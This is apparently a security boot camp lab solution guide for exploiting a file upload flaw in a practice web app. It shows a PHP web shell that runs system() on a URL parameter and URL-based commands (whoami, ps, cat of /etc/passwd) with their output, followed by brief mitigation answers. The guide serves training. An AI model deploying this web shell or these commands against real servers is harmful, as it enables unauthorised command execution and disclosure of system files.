 ## Solution Guide: Local File Inclusion 

In this activity, you were tasked with testing an intended purpose of an application by uploading and viewing a basic image file. You were then tasked with uploading a malicious PHP script and using the script to execute command-line scripts against the web server.

---

1. Test the intended use of the web application.

    **Uploading the Image**

    We will first see how to upload and view an image from the file upload webpage.

      - First select Browse to find the image that you want to upload.

      - By default, this should take you to the desktop of your web lab filesystem.

        - If it takes you to a different location, select Desktop.

      - There will be a file on your desktop called `image.jpg`.

        - Select that image.

      - Back on the file upload page, you should see the `image.jpg` filename that you selected.

        - To upload the file, select Upload.

      - You should then receive a success message that states the following:

        `../../hackable/uploads/image.jpg succesfully uploaded!`
      
    **Viewing the image**  

    - Note that the previous success message indicates where the file has been uploaded to: 
      
      - `../../hackable/uploads/image.jpg`

    - Access the image by replacing the `#` at the end of the URL, with the complete location indicated above.

      - `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/image.jpg `

      - Note that your browser will automatically update the URL to the direct location of the image:

        - `http://192.168.13.25/hackable/uploads/image.jpg`

    - You should see the image of a squirrel. 
    
      - Note that this is how the application is intended to work, by providing the user with an option to upload and view an image!

2. Test an unintended function of the application by loading a malicious PHP script.

    - Note that you just tested how the application is designed to load and view an image.

    - Let's now view a malicious PHP script that we can upload, instead of an image.

    - The malicious PHP script, called `script.php`, has been placed on your desktop.

      - To view this script, find it on your desktop and double-click on it to open:
      
                  <?php
                  $command = $_GET['cmd'];
                  echo system($command);
                  ?>

      - While understanding the exact syntax is not important for now, just note that the contents in the script are designed to run a PHP script to execute a user command.

    - Return to the file upload webpage and follow the same steps again, but this time select and upload the file `script.php`.

      - Note that this script will be uploaded to the same location as the image you previously uploaded.

3. Run command-line commands with your PHP script.

    - Let's now see if we can run command-line commands against the Replicants web server!

      - Change the URL to access the script that you just uploaded.
      
    - Modify the URL again to run the several Linux commands:

      - **Hint:** Review your class slides to see how to modify the URL to run command-line commands.

      - Run the following Linux commands and take note of the results:

        1. `ls`

        2. `whoami`
        
        3. `pwd`
        
        4. `ps`

    - **Note:** While this is a safe place to experiment with commands, DO NOT run commands that might delete or alter files that your system needs, such as `rm`, `mv`, or `rdmir`.

    - **Solution:** The commands to run these scripts are as follows.

      1. `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/script.php?cmd=ls`

          - Results might vary but will look like the following:

              - `image.jpg dvwa_email.png script.php script.php`

      2. `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/script.php?cmd=whoami`

          - Results might look like the following:

              - `www-data www-data`

      3. `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/script.php?cmd=pwd`

          - Results will look like the following:

              - `/var/www/html/hackable/uploads /var/www/html/hackable/uploads`   
                
      4. `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/script.php?cmd=ps`

          - Results might vary but will look like the following:

              - `PID TTY TIME CMD 305 ? 00:00:00 apache2 306 ? 00:00:00 apache2 307 ? 00:00:00 apache2 308 ? 00:00:00 apache2 309 ? 00:00:00 apache2 314 ? 00:00:00 apache2 315 ? 00:00:00 apache2 316 ? 00:00:00 apache2 317 ? 00:00:00 apache2 324 ? 00:00:00 sh 325 ? 00:00:00 ps 325 ? 00:00:00 ps`

4. **Bonus:** Run commands to explore files with your PHP script.

    - Let's now see if we can run malicious commands to explore files within the Replicants web server.

      - By modifying the URL, access the script that you just uploaded.
      
    - Modify the URL to view the `/etc/passwd` file.

      - **Hint:** You will need to encode your payload, as the URL will not accept all characters, such as spaces.

      - Use the following webpage to help design your payload: [MeyerWeb: URL Encoder/Decoder](https://meyerweb.com/eric/tools/dencoder/).

    - **Solution**

      - The command to run this script is as follows:

        `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/script.php?cmd=cat%20../../../../../etc/passwd`

      - Results will look like the following:

        `root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/bin/false mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false`  

5. Answer the following mitigation strategy questions:

    - Describe to your management how a malicious user can take advantage of the vulnerabilities that you just exploited. Be sure to include the potential impact.

      - There are many acceptable answers, as if a web application is vulnerable to local file injection, a variety of malicious payloads can be exploited. The impact could include the following:
          
          - Display of confidential data such as user accounts, password hashes, service accounts, or network information.
          
          - Deletion or modification of the preceding confidential data, which can lead to system outages.

    - Describe in plain language how you might mitigate the vulnerabilities that you just exploited.

      - There are many acceptable answers, all involving input validation. Options might include server-side validation, to only allow certain file types to be uploaded.

---

© 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved. 
